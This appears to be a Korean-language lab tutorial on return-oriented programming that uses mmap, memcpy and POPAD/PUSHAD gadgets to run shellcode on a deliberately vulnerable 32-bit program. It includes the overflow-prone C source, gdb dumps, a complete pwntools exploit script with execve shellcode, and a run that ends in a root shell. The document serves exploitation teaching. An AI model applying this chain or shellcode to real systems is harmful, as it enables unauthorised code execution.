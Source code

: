 ## Concept

ROP를 통해 메모리 영역 할당(mmap)하거나 할당된 메모리 영역의 권한을 변경(mprotect)하여 공격하는 방법.

## **Proof of Concept**  

```c
// Vuln Code
// gcc -m32 -fno-stack-protector -o rop rop.c -ldl
#define _GNU_SOURCE
#include <stdio.h>
#include <unistd.h>
#include <dlfcn.h>
  
void vuln(){
    char buf[50];
    void (*printf_addr)() = dlsym(RTLD_NEXT, "printf");
    printf("Printf() address : %p\n",printf_addr);
    read(0, buf, 256);
}
 
void main(){
    write(1,"Hello ROP\n",10);
    vuln();
}
```

"A"*66을 입력해 Overflow 가능.

```
gdb-peda$ x/24wx $ebp
0xbffff538:	0x41414141	0x0804850a	0xb7fb63dc	0xbffff560
```

**POPAD**: 스택에 존재하는 값을 EAX, ECX, EDX, EBX, ESP, EBP, ESI, EDI 레지스터에 저장.

```
gdb-peda$ x/24wx $esp
0xbfdfca50:	0x41414141	0x42424242	0x43434343	0x44444444
0xbfdfca60:	0x45454545	0x46464646	0x47474747	0x48484848
```

이 상태에서 POPAD할 경우 다음과 같이 레지스터에 저장된다.

```
EAX: 0x48484848 ('HHHH')
EBX: 0x45454545 ('EEEE')
ECX: 0x47474747 ('GGGG')
EDX: 0x46464646 ('FFFF')
ESI: 0x42424242 ('BBBB')
EDI: 0x41414141 ('AAAA')
EBP: 0x43434343 ('CCCC')
ESP: 0xbfdfca70 ("IIIIlg۷n313337277")
```

**PUSHAD**: EAX, ECX, EDX, EBX, ESP, EBP, ESI, EDI 순으로 레지스터의 값을 스택에 저장한다.  
위와 같이 POPAD 한 상태에서 PUSHAD 한 경우의 esp.

```
gdb-peda$ x/24wx $esp
0xbfe351f4:	0x41414141	0x42424242	0x43434343	0xbfe35214
0xbfe35204:	0x45454545	0x46464646	0x47474747	0x48484848
```

## **Exploit Method**
1. mmap() 함수를 이용하여 새로운 메모리 영역 할당
1. POPAD Gadget에 의해 memcpy() 함수 주소가 저장된 영역으로 이동
  * Libc의 memcpy() 함수는 Exploit Code에서 사용할 Memory 값을 복사할 수 없다.
  * memcpy() 함수는 CPU가 지원하는 Streaming SIMD 확장에 맞는 함수의 주소값을 리턴(EAX에 저장됨)
1. XCHG EAX,EDI Gadget에 의해 리턴받은 __memcpy_sse2_unaligned() 함수의 주소를 EDI 레지스터에 저장
1. POP ESI Gadget에 의해 memcpy()함수 호출 후 이동할 return address를 ESI 레지스터에 저장
1. POP EBP Gadget에 의해 1번째 인자 값을 EBP 레지스터에 저장
1. POP EBX Gadget에 의해 3번째 인자 값을 EBX 레지스터에 저장
1. PUSHAD Gadget에 의해 레지스터에 저장된 값들을 Stack 에 저장하고 0x1028 영역(0x1048 - (0x4 * 레지스터 개수(8))으로 이동
  * 2 번째 인자 값은 ESP 레지스터에 저장되어 있기 때문에 별도의 조작이 필요하지 않다.
1. 0x1028 영역에서 memcpy() 함수로 인해 Stack에 저장된 shellcode가 mmap()에 의해 생성된 메모리 영역으로 복사
1. memcpy() 함수가 종료되면 mmap()에 의해 생성된 메모리 영역으로 이동하여 shellcode를 실행
  * 해당 영역은 RWX 권한이 설정되어 있기 때문에 Shellcode 실행이 가능.

## **Exploit Code**
```python
# Exploit Code
from pwn import *

shellcode = "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80"

binary = ELF('./rop')
libc = ELF('/lib/i386-linux-gnu/libc-2.23.so')
p=process('./rop')
#gdb.attach(p)
p.recvline()
printf_addr = int(p.recvline().split()[3],16)

print('printf_addr: '+str(printf_addr))

libBase = printf_addr - 0x49670
libc_mmap = libBase + libc.symbols['mmap']
libc_memcpy = libBase + libc.symbols['memcpy']

libc_popad_ret = libBase + 0x0016b802
libc_pushad_ret = libBase + 0x0000c76c
libc_xchg_eax_edi = libBase + 0x000f5c6b
libc_pop_esi = libBase + 0x00124c3f
libc_pop_ebp = libBase + 0x00136d43
libc_pop_ebx = libBase + 0x00143fe3

new_mem = 0x20000000

payload = "A"*66
# mmap(new_mem,0x1000,0x7,0x22,0xffffffff,0)
payload += p32(libc_mmap)
payload += p32(libc_popad_ret)
payload += p32(new_mem)
payload += p32(0x1000)
payload += p32(0x7)
payload += p32(0x22)
payload += p32(0xffffffff)
payload += p32(0)
payload += 'AAAA'*2

# memcpy(new_mem,'address of shellcode',len(shellcode))
payload += p32(libc_memcpy)
payload += p32(libc_xchg_eax_edi)
payload += p32(libc_pop_esi)
payload += p32(new_mem)
payload += p32(libc_pop_ebp)
payload += p32(new_mem)
payload += p32(libc_pop_ebx)
payload += p32(len(shellcode))
payload += p32(libc_pushad_ret)
payload += shellcode

#raw_input("1")
p.sendline(payload)
p.interactive()
```

## **Exploit**
```shell
root@bs-virtual-machine:~/test# python exploit.py 
[!] Pwntools does not support 32-bit Python.  Use a 64-bit release.
[*] '/root/test/rop'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
[*] '/lib/i386-linux-gnu/libc-2.23.so'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[+] Starting local process './rop': pid 4854
printf_addr: 3084265072
[*] Switching to interactive mode
$ 
$ id
uid=0(root) gid=0(root) groups=0(root)
```

**Refereces**  
[https://www.lazenca.net/display/TEC/03.ROP%28Return+Oriented+Programming%29+-+mmap%2C+mprotect](https://www.lazenca.net/display/TEC/03.ROP%28Return+Oriented+Programming%29+-+mmap%2C+mprotect)

